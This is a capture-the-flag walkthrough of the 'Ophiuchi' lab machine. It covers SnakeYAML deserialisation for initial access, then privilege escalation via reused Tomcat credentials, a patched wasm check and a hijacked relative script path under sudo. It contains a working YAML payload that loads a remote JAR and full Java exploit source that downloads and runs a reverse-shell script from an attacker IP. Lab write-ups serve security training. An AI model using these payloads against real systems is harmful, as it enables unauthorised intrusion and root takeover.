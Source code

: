 # Ophiuchi

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### YAML Parser

Port 8080 was running an application that handles YAML input.

<figure><img src="../../../.gitbook/assets/image (50) (1).png" alt=""><figcaption></figcaption></figure>

This was obviously a deserialisation exploit, where the application handles user input without sanitsation and it can lead to code execution. Googling for this led me to this repository.

{% embed url="https://github.com/mbechler/marshalsec" %}

Based on the PoC, we can first test whether the parser is able to send requests to our host using this script:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/yaml-payload.jar"]
  ]]
]
```

And it does indeed work.

<figure><img src="../../../.gitbook/assets/image (48) (3).png" alt=""><figcaption></figcaption></figure>

We then need to use this bit of code here to make the machine download a reverse shell and execute it.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.9/rev.sh -o /tmp/rev.sh");
            Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

After editing this code, we need to compile it to a JAR file using these:

```bash
javac AwesomeScriptEngineFactory.java 
jar -cvf AwesomeScriptingEngineFactory.jar -C src/ .
```

This would create a JAR file. Then, we can make the machine download the JAR file using the same method as above to receive callback. This would trigger the command and our listener port would receive a reverse shell as `tomcat`.&#x20;

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Tomcat Credentials

Since we are `tomcat`, we should look into the configurations for the Tomcat interface. This can be found within `~/conf/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (52) (1).png" alt=""><figcaption></figcaption></figure>

We can try an `su` to the `admin` user and find that it works with this password.

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password, we can check for `sudo` privileges.

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Seems that we can run `go` on a certain script:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

The `deploy.sh` does not have absolute path, so we can create our own script to get a `root` shell. However, before running that, the script seems to check `main.wasm` and only runs `deploy.sh` if it returns 1.&#x20;

Running the script does not work no matter what for now, so let's investigate `main.wasm`. WASM is short for Web Assembly, and we can download and decompile the file here:

{% embed url="https://wasdk.github.io/WasmFiddle/" %}

This would allow us to see the code that is present. Alternatively, we can use `wasm-decompile` to read it.

```
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

The above code seems to do nothing but return 0, so we need to change that 0 to a 1. We can count the bytes and change the byte accordingly using `dd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can create a `deploy.sh` file that adds our public key into the `/root/.ssh/authorized_key` folder and run the `sudo` command.

This would allow us to SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (100) (4).png" alt=""><figcaption></figcaption></figure>
